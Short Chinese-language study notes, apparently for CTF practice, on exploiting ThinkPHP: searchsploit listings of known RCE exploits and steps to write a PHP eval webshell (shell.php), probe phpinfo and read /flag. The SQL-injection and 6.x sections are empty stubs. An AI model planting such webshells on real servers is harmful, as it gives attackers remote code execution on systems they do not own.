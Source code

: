 # Thinkphp 漏洞利用

# 00X1 什么是thinkphp
ThinkPHP是一个免费开源的，快速、简单的面向对象的轻量级PHP开发框架
>**什么是web框架？**
[web框架](https://blog.csdn.net/weixin_42976659/article/details/88187868?ops_request_misc=&request_id=&biz_id=102&utm_term=web%25E6%25A1%2586%25E6%259E%25B6&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-6-88187868.nonecase)
>**什么是静态与动态网站？**
[静态与动态网站](https://blog.csdn.net/liangmengbk/article/details/99176845?ops_request_misc=%25257B%252522request%25255Fid%252522%25253A%252522160889557916780296863195%252522%25252C%252522scm%252522%25253A%25252220140713.130102334..%252522%25257D&request_id=160889557916780296863195&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-99176845.first_rank_v2_pc_rank_v29&utm_term=%E5%8A%A8%E6%80%81%E7%BD%91%E7%AB%99%E5%92%8C%E9%9D%99%E6%80%81%E7%BD%91%E7%AB%99%E5%8C%BA%E5%88%AB)

# 00X2 thinkphp 漏洞利用
### 工具
>**在线漏洞查询网站**
[exploit database](https://www.exploit-db.com)

>**kali**
searchsploit

```
┌──(sinon㉿kali)-[~]
└─$ searchsploit thinkphp

Exploit Title                          |  Path
---------------------------------------- ---------------------------------
ThinkPHP - Multiple PHP Injection RCEs  | linux/remote/48333.rb
ThinkPHP 2.0 - 'index.php' Cross-Site S | php/webapps/33933.txt
ThinkPHP 5.0.23/5.1.31 - Remote Code Ex | php/webapps/45978.txt
ThinkPHP 5.X - Remote Command Execution | php/webapps/46150.txt

```
```
┌──(sinon㉿kali)-[~]
└─$ cd /usr/share/exploitdb/exploits/php/webapps
┌──(sinon㉿kali)-[/usr/…/exploitdb/exploits/php/webapps]
└─$ gedit ***.txt
```
# 00X3 题型
### 5.x 远程命令/SQL注入
### 6.x 反序列化/文件操作漏洞
# 00X4 5.x 远程命令 payload
### step1
>/?s=1
**查看thinkphp版本**
### step2
>echo '\<?php highlight_file(\_\_FILE__);@eval($_POST["shell"]);?>'>shell.php
**上🐎,验证成功上🐎**

>echo '\<?php highlight_file(\_\_FILE__);@eval(phpinfo());?>'>info.php
**查看info页面**

>ls /
cat /flag
**常规命令**
# 00X5 5.x SQL注入 payload
[Reference](https://blog.csdn.net/Fly_hps/article/details/84956102?ops_request_misc=%25257B%252522request%25255Fid%252522%25253A%252522160888490716780304694615%252522%25252C%252522scm%252522%25253A%25252220140713.130102334..%252522%25257D&request_id=160888490716780304694615&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-2-84956102.first_rank_v2_pc_rank_v29&utm_term=thinkphp%E6%BC%8F%E6%B4%9E)
# 00X6 6.x 文件操作漏洞
